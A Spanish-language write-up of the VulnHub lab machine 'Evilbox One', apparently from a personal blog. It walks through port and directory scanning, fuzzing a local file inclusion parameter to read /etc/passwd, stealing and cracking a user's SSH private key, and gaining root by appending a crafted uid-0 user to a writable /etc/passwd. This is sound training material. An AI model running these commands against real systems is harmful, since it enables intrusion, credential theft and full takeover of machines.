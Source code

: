 ```yaml
---
title: Evilbox One
date: 2024-07-13
categories: [WRITEUPS, VulnHub]
tags: [lfi]  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

El primer paso es realizar un escaneo de puertos con NMAP, para comprobar que puertos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.156 -n -Pn -v
```

![picture](/assets/images/vulnhub/evilbox1.png){: w="600" h="300" }

A continuación, nos vamos al navegador para ver de que se trata la página web, y comprobamos que se trata de una página por defecto de Apache2.

![picture](/assets/images/vulnhub/evilbox2.png)

Vamos a realizar **Fuzzing** con **Gobuster**, para ver si encontramos rutas y archivos que no podamos ver desde un primer momento.

```bash
gobuster dir -u http://192.168.1.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/evilbox3.png)

Dentro del archivo "*robots.txt*" encontramos un comentario.

![picture](/assets/images/vulnhub/evilbox4.png)

Dentro de la ruta "*/secret*" encontrada no hay contenido, así que volvemos a realizar **Fuzzing** añadiendo la ruta entera.

```bash
gobuster dir -u http://192.168.1.156/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

Y encontramos un archivo llamado "***evil.php***".

![picture](/assets/images/vulnhub/evilbox5.png)

----

## **Explotación**

A continuación, vamos a intentar explotar un **LFI** (*Local File Inclusion*), que es la capacidad de poder leer archivos internos de la máquina.

Para ello realizaremos un *ataque de diccionario* para intentar encontrar algún parámetro por el cual podamos leer el archivo "*/etc/passwd*".

Utilizaremos la herramienta **FFUF**, escrita en **Go**, y para indicarle donde queremos que pruebe el diccionario, escribiremos el parámetro **FUZZ** como se puede ver en el comando.

```bash
wfuzz -c --hc=404,403 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 'http://192.168.1.156/secret/evil.php?FUZZ=/etc/passwd'
```

![picture](/assets/images/vulnhub/evilbox6.png)

Y encontramos el parámetro "***command***". 

Podemos listar archivos locales de la máquina, aunque no podemos ejecutar comandos.

![picture](/assets/images/vulnhub/evilbox7.png){: w="600" h="300" }

Intentando mostrar la **clave privada** de **SSH** (*id_rsa*) del usuario **mowree**, compruebo que tenemos permisos de lectura. Así que la idea es copiarla y acceder a la máquina con la clave privada.

![picture](/assets/images/vulnhub/evilbox8.png){: w="600" h="300" }

Una vez la clave copiada y traída a nuestra máquina local, creando un archivo llamado "**id_rsa**" con permisos 600, intentamos acceder mediante **SSH**, pero me pide una contraseña, así que lo siguiente será intentar crackear la contraseña con **John The Ripper**.

![picture](/assets/images/vulnhub/evilbox9.png){: w="600" h="300" }

Para ello convertiremos el formato del archivo a uno que **John The Ripper** pueda entender utilizando la herramienta **ssh2john**.

```bash
ssh2john id_rsa > hash.txt
```
Una vez el archivo convertido, ejecutamos **John The Ripper**, y nos encuentra la contraseña con el diccionario **rockyou**.

![picture](/assets/images/vulnhub/evilbox10.png){: w="600" h="300" }

Accedemos mediante **SSH** y la clave.

```bash
ssh -i id_rsa mowree@192.168.1.156
```

Y estamos dentro de la máquina siendo el usuario **mowree**.

![picture](/assets/images/vulnhub/evilbox11.png){: w="600" h="300" }

Dentro de su directorio personal, encontramos la primera **flag**.

![picture](/assets/images/vulnhub/evilbox12.png)

---

## **Escalada de privilegios**

Listando los permisos del archivo *"/etc/passwd"* podemos comprobar que tenemos permisos de escritura.

![picture](/assets/images/vulnhub/evilbox13.png)

La idea para escalar máximos privilegios, será añadir un usuario nuevo con la bash de **root**.

Para ello generaremos una contraseña cifrada.

```bash
openssl passwd -1 -salt xyz password
```

![picture](/assets/images/vulnhub/evilbox20.png)

Y a continuación, añadiremos el usuario al /etc/passwd.

```bash
echo  'pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

![picture](/assets/images/vulnhub/evilbox14.png){: w="600" h="300" }

Migramos al usuario **pwned**, y nos devuelve la bash como **root**, y en la carpeta personal, podemos leer la segunda **flag**.

![picture](/assets/images/vulnhub/evilbox15.png){: w="600" h="300" }
